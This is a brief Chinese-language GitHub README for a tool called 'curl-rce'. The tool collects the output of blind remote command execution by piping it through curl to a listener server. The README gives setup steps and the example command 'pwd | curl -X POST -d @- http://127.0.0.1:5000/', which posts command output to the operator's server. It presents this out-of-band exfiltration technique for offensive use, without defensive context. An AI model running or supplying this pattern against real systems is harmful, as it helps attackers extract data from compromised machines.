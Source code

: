 # curl-rce
在无回显的情况下，通过curl外带命令，达到回显的效果
1.服务端部署
2.运行python3 app.py
3.客户端请求pwd | curl -X POST -d @- http://127.0.0.1:5000/
4.访问http://127.0.0.1/来查看客户端命令执行结果
<img width="1511" alt="图片" src="https://github.com/shanxigetanxiaochou/curl-rce/assets/64448262/243cc31e-58d4-4fc3-b9ef-9a7aca62feeb">
